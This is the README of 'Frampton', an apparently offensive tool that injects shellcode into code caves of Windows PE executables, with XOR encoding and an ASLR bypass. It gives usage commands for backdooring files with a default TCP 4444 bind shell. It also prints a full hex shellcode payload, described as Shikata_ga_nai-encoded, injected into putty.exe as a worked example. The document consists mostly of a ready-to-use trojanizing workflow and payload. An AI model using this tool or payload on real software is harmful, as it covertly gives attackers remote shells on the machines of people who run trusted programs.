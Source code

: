 # Frampton
[![GitHub pull-requests](https://img.shields.io/github/issues-pr/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/pull/)
[![GitHub contributors](https://img.shields.io/github/contributors/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/graphs/contributors/)
![](https://img.shields.io/github/issues/ins1gn1a/Frampton)
![](https://img.shields.io/github/stars/ins1gn1a/Frampton)
![](https://img.shields.io/github/license/ins1gn1a/Frampton)

PE Binary Shellcode Injector - Automated code cave discovery, shellcode injection, ASLR bypass

## Install
`pip3 install -r requirements.txt`

## Usage
```
usage: frampton.py [-h] --file FILE [--shellcode SHELLCODE] [--output OUTFILE]
                   [--info] [--encoder] [--multi-encoder ENCODERMULTIPLE]

Frampton PE file Injector

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  Filename or path to base template PE file
  --shellcode SHELLCODE, -s SHELLCODE
                        Enter custom shellcode - architecture specific x86/x64
                        (optional) - Default: Windows x86 TCP 4444 Bind Shell
  --output OUTFILE, -o OUTFILE
                        Filename or path to new destination PE file (optional)
  --info, -i            Only display code cave information - does not inject
                        or modify (optional)
  --encoder, -e         Use built-in shellcode XOR encoder - x86 only
                        (optional)
  --multi-encoder ENCODERMULTIPLE, -m ENCODERMULTIPLE
                        Specify the number of auto-generated keys to encode
                        shellcode (optional)
```

#### Information Only (no injection)
```./frampton.py -f FILENAME.exe -i```

![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example2.png?raw=true)


#### Built-in basic bind shell (TCP 4444) 
```./frampton.py -f FILENAME.exe```

#### Built-in basic bind shell (TCP 4444) with XOR encoder
```./frampton.py -f FILENAME.exe -e```

#### Built-in basic bind shell (TCP 4444) with multiple XOR encoder
```./frampton.py -f FILENAME.exe -e -m 4```

#### Custom Shellcode Injector 
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE```

#### Custom Shellcode Injector with XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e```

#### Custom Shellcode Injector with multiple XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e -m 4```

## Example 

Encoding a 32-bit Putty PE file with Shikata_ga_nai encoding TCP bind shellcode, further encoding with 10 XOR keys.
```
./frampton.py -f putty.exe -e -m 10 -s "\xd9\xe8\xbd\xa0\xdb\xbd\x87\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x53\x83\xc0\x04\x31\x68\x13\x03\xc8\xc8\x5f\x72\xf4\x07\x1d\x7d\x04\xd8\x42\xf7\xe1\xe9\x42\x63\x62\x59\x73\xe7\x26\x56\xf8\xa5\xd2\xed\x8c\x61\xd5\x46\x3a\x54\xd8\x57\x17\xa4\x7b\xd4\x6a\xf9\x5b\xe5\xa4\x0c\x9a\x22\xd8\xfd\xce\xfb\x96\x50\xfe\x88\xe3\x68\x75\xc2\xe2\xe8\x6a\x93\x05\xd8\x3d\xaf\x5f\xfa\xbc\x7c\xd4\xb3\xa6\x61\xd1\x0a\x5d\x51\xad\x8c\xb7\xab\x4e\x22\xf6\x03\xbd\x3a\x3f\xa3\x5e\x49\x49\xd7\xe3\x4a\x8e\xa5\x3f\xde\x14\x0d\xcb\x78\xf0\xaf\x18\x1e\x73\xa3\xd5\x54\xdb\xa0\xe8\xb9\x50\xdc\x61\x3c\xb6\x54\x31\x1b\x12\x3c\xe1\x02\x03\x98\x44\x3a\x53\x43\x38\x9e\x18\x6e\x2d\x93\x43\xe7\x82\x9e\x7b\xf7\x8c\xa9\x08\xc5\x13\x02\x86\x65\xdb\x8c\x51\x89\xf6\x69\xcd\x74\xf9\x89\xc4\xb2\xad\xd9\x7e\x12\xce\xb1\x7e\x9b\x1b\x2f\x76\x3a\xf4\x52\x7b\xfc\xa4\xd2\xd3\x95\xae\xdc\x0c\x85\xd0\x36\x25\x2e\x2d\xb9\x58\xf3\xb8\x5f\x30\x1b\xed\xc8\xac\xd9\xca\xc0\x4b\x21\x39\x79\xfb\x6a\x2b\xbe\x04\x6b\x79\xe8\x92\xe0\x6e\x2c\x83\xf6\xba\x04\xd4\x61\x30\xc5\x97\x10\x45\xcc\x4f\xb0\xd4\x8b\x8f\xbf\xc4\x03\xd8\xe8\x3b\x5a\x8c\x04\x65\xf4\xb2\xd4\xf3\x3f\x76\x03\xc0\xbe\x77\xc6\x7c\xe5\x67\x1e\x7c\xa1\xd3\xce\x2b\x7f\x8d\xa8\x85\x31\x67\x63\x79\x98\xef\xf2\xb1\x1b\x69\xfb\x9f\xed\x95\x4a\x76\xa8\xaa\x63\x1e\x3c\xd3\x99\xbe\xc3\x0e\x1a\xce\x89\x12\x0b\x47\x54\xc7\x09\x0a\x67\x32\x4d\x33\xe4\xb6\x2e\xc0\xf4\xb3\x2b\x8c\xb2\x28\x46\x9d\x56\x4e\xf5\x9e\x72"
```
![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example.png?raw=true)
